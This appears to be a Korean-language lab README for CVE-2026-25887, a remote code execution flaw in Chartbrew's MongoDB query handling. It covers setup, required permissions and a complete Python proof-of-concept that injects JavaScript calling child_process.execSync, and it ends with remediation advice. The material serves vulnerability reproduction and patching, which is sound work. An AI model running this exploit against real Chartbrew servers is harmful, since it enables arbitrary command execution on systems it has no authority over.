

# Chartbrew MongoDB 쿼리 코드 삽입으로 인한 원격 코드 실행 (CVE-2026-25887)

## 취약점 요약
Chartbrew는 다양한 데이터 소스에서 데이터를 가져와 실시간 대시보드와 라이브 리포트를 생성할 수 있도록 설계된 오픈 소스 데이터 시각화 플랫폼입니다.

Chartbrew 4.8.1 이전 버전에서 MongoDB 데이터셋 쿼리를 통한 원격 코드 실행 취약점이 존재했습니다. 취약한 버전에서는 사용자가 입력한 MongoDB 쿼리를 적절히 검증하지 않고 JavaScript `Function()`으로 실행합니다. 따라서 데이터셋 생성 권한을 가진 인증 사용자는 조작된 쿼리를 통해 임의의 명령을 실행할 수 있습니다.

## 환경 구성
```
docker compose up -d
```

Chartbrew API 서버가 구동되기 위해서는 docker compose로 컨테이너가 빌드된 이후에도 약 20초 정도 추가로 기다려야 합니다.

Web UI와 API의 포트는 각각 다음과 같습니다.

```
Web UI: http://localhost:4018
API:    http://localhost:4019
```

## 취약 조건
- 4.8.1 미만 버전의 Chartbrew 서버일 것
- MongoDB 데이터 연결을 사용하는 쿼리가 `runMongo` 함수에 전달될 것
  
### 필요 권한
- 팀 생성 권한
- 계정 생성 권한
- 데이터 연결, 데이터셋 생성 권한

## PoC
[`poc.py`](poc.py)에 위치합니다

```python
import json
import sys
import requests

url = "http://localhost:4019"
command = " ".join(sys.argv[1:]) or "id"
r = requests.Session()

res = r.post(f"{url}/user/login", json = {
  "email": "test@local.test",
  "password": "CVE-2026-25887",
})

if res.status_code == 401:
  res = r.post(f"{url}/user", json = {
    "name": "CVE PoC",
    "email": "test@local.test",
    "password": "CVE-2026-25887",
  })

r.headers["Authorization"] = f"Bearer {res.json()['token']}"

team = r.post(f"{url}/team", json = {"name": "CVE-2026-25887"}).json()
connection = r.post(f"{url}/team/{team['id']}/connections", json = {
  "team_id": team["id"],
  "name": "Vulhub MongoDB",
  "type": "mongodb",
  "subType": "mongodb",
  "host": "mongodb",
  "port": "27017",
  "dbName": "vulhub",
}).json()

payload = f"version + (function(){{ try {{ const r = global.process.mainModule.require('child_process'); return r.execSync({json.dumps(command)}).toString(); }} catch(e) {{ return e.toString(); }} }})()"

dataset = r.post(f"{url}/team/{team['id']}/datasets/quick-create", json = {
  "team_id": team["id"],
  "legend": "CVE-2026-25887 PoC",
  "draft": False,
  "dataRequests": [{"connection_id": connection["id"], "query": payload}],
}).json()
data_request = dataset["DataRequests"][0]

result = r.post(
  f"{url}/team/{team['id']}/datasets/{dataset['id']}"
  f"/dataRequests/{data_request['id']}/request",
  json = { "getCache" : False },
).json()

print(result["dataRequest"]["responseData"]["data"].removeprefix("undefined"))
```

## 재현 절차
다음 명령으로 PoC를 실행합니다.

```
pip install requests

python3 poc.py <command>
```

## 실행 결과
`id` 명령이 실행되어 아래와 같은 결과가 출력됩니다.



## 대응 방안

- Chartbrew를 취약점이 수정된 4.8.1 이상 버전으로 업데이트합니다.
- 데이터 연결과 데이터셋 생성 권한을 필요한 사용자에게만 부여합니다.